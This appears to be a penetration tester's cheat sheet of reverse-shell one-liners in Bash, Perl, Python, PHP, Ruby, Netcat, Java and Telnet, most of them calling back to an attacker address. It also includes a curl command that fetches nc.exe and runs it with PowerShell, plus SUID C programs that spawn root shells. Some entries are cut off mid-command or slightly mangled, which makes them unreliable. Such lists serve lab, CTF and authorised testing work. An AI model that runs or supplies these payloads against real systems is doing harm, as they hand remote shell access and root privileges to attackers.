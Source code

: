 # Reverse Shell

- WebShell Reverse shell
    
    `curl http://10.10.14.77:8000/nc.exe -o nc.exe`
    
    `nc.exe 10.10.14.77 1234 -e powershell`
    
- Bash
    
    ```
    bash -i >& /dev/tcp/10.10.14.1/1234 0>&1
    
    bash -c 'bash -i >& /dev/tcp/10.10.14.92/1234 0>&1'
    ```
    
- PERL
    - `exec "/bin/sh";`
    - `perl —e 'exec "/bin/sh";'`
    - `perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`
    - `perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`
        - Windows
    - `perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM`
    
    ```
    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
    ```
    
- Python
    
    ```
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    ```
    
- PHP
    
    ```
    php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```
    
    - `php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'`
        - (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)
- Ruby
    
    ```
    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    ```
    
    # **Spawn Ruby Shell**
    
    - `exec "/bin/sh"`
    - `ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d`
- Netcat
    
    ```
    nc -e /bin/sh 10.0.0.1 1234
    ```
    
    If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this
    
    ```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
    ```
    
    # **Netcat**
    
    - `nc -e /bin/sh ATTACKING-IP 80`
    - `/bin/sh | nc ATTACKING-IP 80`
    - `rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`
- Java
    
    ```
    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()
    ```
    
- Telnet
    
    # **Telnet Reverse Shell**
    
    - `rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p`
    - `telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443`

# **SUID C Shells**

- bin/bash:
    
    ```
    int main(void){
    
    setresuid(0, 0, 0);
    
    system("/bin/bash");
    
    }
    ```
    
    - `exec /bin/bash 0&0 2>&0`
    - `0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196`
    - `exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done`
    
    # or: while read line 0<&5; do $line 2>&5 >&5; done
    
    - `bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`
- bin/sh:
    
    ```
    int main(void){
    
    setresuid(0, 0, 0);
    
    system("/bin/sh");
    
    }
    ```
    

[Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)